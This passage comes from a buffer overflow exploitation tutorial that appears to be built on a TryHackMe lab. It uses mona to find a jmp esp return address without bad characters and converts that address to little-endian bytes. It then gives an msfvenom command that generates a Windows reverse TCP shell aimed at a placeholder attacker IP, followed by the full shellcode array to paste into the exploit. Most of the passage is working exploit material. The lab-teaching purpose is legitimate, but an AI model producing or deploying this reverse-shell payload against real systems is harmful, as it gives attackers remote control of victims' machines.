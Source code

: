 We'd then choose an address that does not have any bad characters in it.

Or, rather, my favourite, we can do all of this at once:

`!mona jmp -r esp -cpb "\x00\xa0\xcd\xd4"`

Sorry I left that one for last, but now you know why we're using it. What it does is search for search for `jmp` instructions to the register specified by `-r` and avoiding the bad characters in `-cpb`.

This gives us address: `625011AF`

Now we know the machine is x86 architecture which is little-endian (this is out of scope for this talk), but it means that we need to reverse the byte order to get the actual address in memory which becomes `AF115062`.

Or for the purposes of overwriting the return address (and therefore the EIP): `\xaf\x11\x50\x62`.

### Generating Shellcode and the NOP sled

All we need now is actually something to execute. Let's get a reverse shell.

We'll use `msfvenom` to generate our shell code. You should already be familiar with this tool, if you aren't take a look at the What the Shell room on TryHackMe ([https://tryhackme.com/room/introtoshell](https://tryhackme.com/room/introtoshells)).

`msfvenom -p windows/shell_reverse_tcp LHOST=<Attacker-IP-ADDRESS> LPORT=4444 EXITFUNC=thread -b "\x00\xa0\xcd\xd4" -a x86 -f c`

This generates code for a windows reverse shell, pointed at our attack machine, on port 4444, for x86 architecture and we ask for it in c because it gives us something that'll be really easy to convert to our python exploit.

We copy this part to our exploit:

```c
"\xb8\xbd\xf9\x81\x1a\xdb\xd9\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"
"\x52\x83\xee\xfc\x31\x46\x0e\x03\xfb\xf7\x63\xef\xff\xe0\xe6"
"\x10\xff\xf0\x86\x99\x1a\xc1\x86\xf1\x6f\x72\x37\x74\x3d\x7f"
"\xbc\xd8\xd5\xf4\xb0\xf4\xda\xbd\x7f\x23\xd5\x3e\xd3\x17\x74"
"\xbd\x2e\x44\x56\xfc\xe0\x99\x97\x39\x1c\x53\xc5\x92\x6a\xc6"
"\xf9\x97\x27\xdb\x72\xeb\xa6\x5b\x67\xbc\xc9\x4a\x36\xb6\x93"
"\x4c\xb9\x1b\xa8\xc4\xa1\x78\x95\x9f\x5a\x4a\x61\x1e\x8a\x82"
"\x8a\x8d\xf3\x2a\x79\xcf\x34\x8c\x62\xba\x4c\xee\x1f\xbd\x8b"
"\x8c\xfb\x48\x0f\x36\x8f\xeb\xeb\xc6\x5c\x6d\x78\xc4\x29\xf9"
"\x26\xc9\xac\x2e\x5d\xf5\x25\xd1\xb1\x7f\x7d\xf6\x15\xdb\x25"
"\x97\x0c\x81\x88\xa8\x4e\x6a\x74\x0e\x05\x87\x61\x3c\x44\xc0"
"\x46\x0d\x76\x10\xc1\x06\x05\x22\x4e\xbd\x81\x0e\x07\x1b\x56"
"\x70\x32\xdb\xc8\x8f\xbd\x1c\xc1\x4b\xe9\x4c\x79\x7d\x92\x06"
"\x79\x82\x47\x88\x29\x2c\x38\x67\x99\x8c\xe8\x01\xf3\x02\xd6"
"\x32\xfc\xc8\x7f\xd8\x07\x9b\x75\x15\x65\xe6\xe2\x27\x69\x09"
"\xaf\xae\x8f\x43\x5f\xe7\x18\xfc\xc6\xa2\xd2\x9d\x07\x79\x9f"
"\x9e\x8c\x8e\x60\x50\x65\xfa\x72\x05\x85\xb1\x28\x80\x9a\x6f"
"\x44\x4e\x08\xf4\x94\x19\x31\xa3\xc3\x4e\x87\xba\x81\x62\xbe"
"\x14\xb7\x7e\x26\x5e\x73\xa5\x9b\x61\x7a\x28\xa7\x45\x6c\xf4"
"\x28\xc2\xd8\xa8\x7e\x9c\xb6\x0e\x29\x6e\x60\xd9\x86\x38\xe4"
"\x9c\xe4\xfa\x72\xa1\x20\x8d\x9a\x10\x9d\xc8\xa5\x9d\x49\xdd"
"\xde\xc3\xe9\x22\x35\x40\x09\xc1\x9f\xbd\xa2\x5c\x4a\x7c\xaf"
"\x5e\xa1\x43\xd6\xdc\x43\x3c\x2d\xfc\x26\x39\x69\xba\xdb\x33"
"\xe2\x2f\xdb\xe0\x03\x7a"
```
